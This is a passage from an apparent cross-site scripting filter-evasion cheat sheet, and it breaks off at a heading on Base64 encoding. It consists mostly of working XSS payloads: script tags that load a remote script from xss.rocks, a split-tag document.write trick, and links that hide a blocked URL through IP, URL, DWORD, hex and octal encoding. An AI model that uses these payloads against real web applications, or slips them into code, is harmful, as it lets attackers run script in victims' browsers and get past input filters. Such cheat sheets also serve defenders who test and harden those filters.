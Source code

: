 
Here's an XSS example which works if the regex won't catch a matching pair of quotes but instead will find any quotes to terminate a parameter string improperly:

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### URL String Evasion

The following attacks work if `http://www.google.com/` is programmatically disallowed:

#### IP Versus Hostname

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

#### URL Encoding

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### DWORD Encoding

Note: there are other of variations of DWORD encoding - see the IP Obfuscation calculator below for more details:

```html
<A HREF="http://1113982867/">XSS</A>
```

#### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quote is not required:

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc:

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Base64 Encoding
